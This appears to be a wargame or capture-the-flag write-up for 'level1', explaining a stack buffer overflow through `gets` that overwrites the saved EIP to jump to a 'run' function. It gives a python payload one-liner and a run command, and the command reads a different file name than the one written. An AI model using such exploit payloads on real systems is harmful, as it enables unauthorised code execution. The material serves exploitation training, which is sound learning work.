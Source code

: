 # LEVEL1

## EXPLANATIONS

### BINARY BEHAVIOR

- main allocates buffer on stack
- call to `gets` is then performed to fill this buffer with stdin

### EXPLOIT STRATEGY

- as `gets` does not limit the number of bytes it reads :
  - We can do a stack buffer overflow by overwriting main sEIP with the address of `run function`
  - When main's ret instruction (pop EIP + jmp EIP) will be performed, it will jump to `run function`

### RUN COMMAND

```
python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" > /tmp/exploit_string
cat /tmp/string - | ./level1
```
